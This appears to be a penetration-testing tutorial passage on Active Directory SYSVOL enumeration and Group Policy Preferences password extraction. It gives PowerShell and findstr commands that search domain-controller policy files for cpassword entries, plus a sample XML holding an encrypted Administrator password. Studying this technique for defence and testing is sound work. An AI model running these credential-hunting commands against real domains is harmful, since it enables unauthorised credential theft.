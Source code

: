 ### Systematic Share Investigation

**SYSVOL Enumeration Example:**
```powershell
# List SYSVOL contents
ls \\<domain_controller>\sysvol\<domain_name>\

# Common SYSVOL structure:
# ├── Policies\
# ├── scripts\
# └── Archives (if present)
```

**Sample SYSVOL Contents:**
```
Directory: \\DC1.corp.com\sysvol\corp.com

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         9/21/2022   1:11 AM                Policies
d-----          9/2/2022   4:08 PM                scripts
```

**Policies Directory Investigation:**
```powershell
# Enumerate policy folders
ls \\<domain_controller>\sysvol\<domain_name>\Policies\

# Common findings:
# - GUIDs representing Group Policy Objects
# - Legacy policy backups
# - Administrative configuration files
```

### Group Policy Preferences (GPP) Password Extraction

**GPP Vulnerability Background:**
- Legacy method for managing local account passwords
- AES-256 encrypted passwords stored in policy files
- Microsoft published decryption key on MSDN
- Affects cpassword attributes in policy XML files

**GPP Password Discovery:**
```powershell
# Search for policy files with encrypted passwords
findstr /S /I cpassword \\<domain_controller>\sysvol\<domain_name>\Policies\*.xml

# Manual file inspection
cat \\<domain_controller>\sysvol\<domain_name>\Policies\<policy_folder>\*.xml
```

**Sample GPP Password File:**
```xml
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}">
  <User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}"
        name="Administrator (built-in)"
        cpassword="+bsY0V3d4/KgX3VJdO/vyepPfAN1zMFTiQDApgR92JE"
        userName="Administrator (built-in)" />
</Groups>
```
